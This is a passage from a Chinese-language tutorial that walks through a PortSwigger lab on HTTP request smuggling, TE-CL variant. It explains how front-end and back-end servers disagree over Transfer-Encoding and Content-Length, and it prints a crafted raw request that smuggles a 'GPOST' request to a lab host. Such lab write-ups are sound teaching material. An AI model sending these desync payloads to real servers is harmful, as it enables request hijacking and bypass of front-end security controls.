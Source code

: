 连续发送几次请求就可以获得该响应：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915143924.png-water_print](assets/1699409511-d99ee2151755765dd60adff33c50b44f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200915143924.png-water_print")

### [](#24-te-cl)2.4 TE-CL

所谓 `TE-CL`，就是当收到存在两个请求头的请求包时，前端代理服务器处理 `Transfer-Encoding` 这一请求头，而后端服务器处理 `Content-Length` 请求头。

Lab 地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ac041f531eabd0cd804edb62000c0025.web-security-academy.net\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=3Eyiu83ZSygjzgAfyGPn8VdGbKw5ifew\r\n<br>Content-Length: 4\r\n<br>Transfer-Encoding: chunked\r\n<br>\r\n<br>12\r\n<br>GPOST / HTTP/1.1\r\n<br>\r\n<br>0\r\n<br>\r\n<br>``` |
